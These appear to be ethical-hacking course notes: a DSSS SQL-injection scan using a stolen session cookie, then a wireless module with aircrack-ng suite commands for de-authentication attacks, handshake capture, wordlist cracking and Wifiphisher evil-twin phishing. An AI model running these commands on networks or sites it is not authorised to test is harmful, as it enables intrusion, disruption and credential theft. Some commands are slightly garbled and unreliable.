 - DSSS
```bash
https://github.com/stamparm/DSSS
inspect element
console>> document.cookie
python3 dsss.py -u "domain/page.php?parameter=1" --cookie="cookie"
```
----


# Module 16: Hacking Wireless Networks
## Find WiFi Networks in Range 
- NetSurveyor (Windows)

## Find WiFi Networks and Sniff WiFi Packets

- airmon
```bash
ifconfig
airmon-ng start interface
airmon-ng check kill
airmon-ng start wlan0mon
```
	
- Wash
    - Find WiFi Networks (access points - AP) - To detect WPS-enabled devices: `wash -i interface`

## Crack a WEP Network
- aircrack-ng

- Puts the wireless interface into monitor mode: `airmon-ng start wlan0mon`
- List a detected access points and connected clients (stations):  `airodump-ng wlan0mon`
- List of connected clients (stations): `airodump-ng --bssid MACAddress wlan0mon`
- Generate de-authentication packets: `aireplay-ng -0 11 -a MAC-AP -c MAC-dest wlan0mon`

- Crack a PCAP file
```bash
aircrack-ng file.pcap
aircrack-ng -w /usr/share/seclist/[...] file.pcap
```

- Wifiphisher
```bash
cd wifiphisher
wifiphisher --force-hostapd
network manage connect
```

- Airodump
```bash
airodump-ng {file}.cap
airodump-ng wlan0mon --encrypt wep
airodump-ng --dssid SSID -c channel -w Wepcrack wlan0mon
aireplay-ng -0 11 -a MAC-AP -c MAC-dest wlan0mon
aircrack-ng file.cap
aircrack-ng -w /usr/share/seclist/[...] file.cap
aircrack-ng -a2 Handshake -w /usr/share/seclist/[...]
```
